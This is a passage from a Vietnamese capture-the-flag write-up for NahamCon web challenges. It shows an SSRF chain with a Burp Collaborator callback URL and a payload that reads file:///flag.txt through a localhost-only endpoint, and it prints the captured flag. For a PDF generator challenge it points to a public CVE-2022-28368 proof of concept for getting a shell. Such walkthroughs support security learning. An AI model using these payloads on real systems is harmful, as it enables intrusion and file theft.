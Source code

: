 Tóm lại, khi một yêu cầu GET được gửi đến '/private_submission_fetch' với tham số 'url', ứng dụng web này sẽ tải xuống tệp từ 'url' và trả về nội dung tệp đó cho người dùng.

thử fetch tới burp colab:
http://challenge.nahamcon.com:30299/private_submission_fetch?url=http://jj62x6bfitogrjakg8s6nmcqwh28qyen.oastify.com
![](https://hackmd.io/_uploads/H1dEP1jD2.png)
server trả về kết quả Internal Server Error nhưng vẫn có request tới colab
nhưng điều này không giúp ta đọc được nội dung của file.

![](https://hackmd.io/_uploads/H1p8dkjPn.png)
chúng ta cần kết hợp cả 2 phần này để khai thác.

hàm submission_fetch() được sử dụng để tải xuống một tệp từ một đường dẫn URL cung cấp và trả về kết quả tải xuống đó.
```python=
def submission_fetch(url, filename=None):
    return urllib.request.urlretrieve(url, filename=filename)
```

path `/private_submission` cho phép chúng ta tải xuống một file tuy nhiên request phải từ localhost mới có thể thực hiện. ta có thể bypass nó bằng cách sử dụng SSRF

### Solution
tổng hợp lại mình có payload như sau:
mình sẽ sử dụng: http://challenge.nahamcon.com:30299/private_submission_fetch?url=http://127.0.0.1:5000/private_submission?url=file:///flag.txt%26filename=test.txt

upload thành công:
![](https://hackmd.io/_uploads/r1iKokjwn.png)

xem flag trong file test.txt
![](https://hackmd.io/_uploads/HymjsksD2.png)

flag: `flag{c3d727275bee25a40fae2d2d2fba9d70}`


## Stickers
![](https://hackmd.io/_uploads/B1LSnkiw2.png)

### Phân tích
ứng dụng web này có chức năng tạo pdf. trang chủ có một số đầu vào trông hơi lạ lạ.

mình thấy có một số vị trí có thể chèn
![](https://hackmd.io/_uploads/SyB1pyoDn.png)

 mình sẽ để một số tài liệu tham khảo ở đây:
https://www.exploit-db.com/exploits/51270
https://github.com/rvizx/CVE-2022-28368

run PoC để lấy shell là được :100:  bạn cũng có thể đọc lại cách phân tích CVE này ở nguồn khác để hiểu chi tiết.
